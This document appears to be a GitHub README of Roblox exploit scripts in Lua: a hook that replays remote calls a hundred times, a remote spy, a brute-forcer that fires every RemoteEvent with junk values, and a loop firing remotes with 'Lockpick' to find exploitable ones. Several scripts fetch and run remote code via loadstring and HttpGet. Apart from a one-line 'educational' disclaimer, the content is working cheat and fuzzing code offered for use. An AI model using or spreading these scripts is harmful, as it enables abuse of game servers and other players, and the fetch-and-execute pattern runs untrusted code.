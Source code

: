 ## Scripts Overview

<details>
  <summary>RemoteHook</summary>

```lua
local HS = loadstring(game:HttpGet('https://raw.githubusercontent.com/0zBug/HookingService/refs/heads/main/main.lua'))()
  local function HookFunction(originalFunction, remote, ...)
      local args = {...}
      print("arguments:", unpack(args))
      --
      for i = 1, 100 do
          originalFunction(remote, unpack(args))
      end
  
      return originalFunction(remote, unpack(args))
  end
  local remote = workspace
  HS:HookRemote(remote, HookFunction)
```
</details>

---

<details>
  <summary>RemoteFunction spy</summary>

```lua
  local repr = loadstring(game:HttpGet('https://raw.githubusercontent.com/Ozzypig/repr/master/repr.lua'))()
game.StarterGui:SetCore("DevConsoleVisible", true)
```
</details>

---
 
<details>
  <summary>Bruteforce Remote</summary>

```lua
local params = {
    nil, true, false, 0, 1, -1, 100, -100, math.huge, 0/0, "100bucks2", "imadethis12321", workspace, 
    game.Players.LocalPlayer, game.Players.LocalPlayer.Character,
}
for i,v in pairs(game.ReplicatedStorage.Packages:GetDescendants()) do 
    if v:IsA("RemoteEvent") then 
        for i,b in pairs(params) do
            for i,c in pairs(params) do
                pcall(function()
                    v:FireServer(b, c)
                end)
            end
        end
    end
end
```
</details>

---

<details>
  <summary>used to find shit</summary>

 ```lua
for i,v in pairs(game.ReplicatedStorage:GetDescendants()) do 
    if v:IsA("RemoteEvent") and v.Name ~= "giveMop" and v.Name ~= "ResetPlayerData" and v.Name ~= "Respawn" and not v:IsDescendantOf(game.ReplicatedStorage.spawner) then 
        v:FireServer("Lockpick")
    end
end
```
</details>

---

## ⚠️ Disclaimer  
These scripts are for **educational and security testing purposes only**.
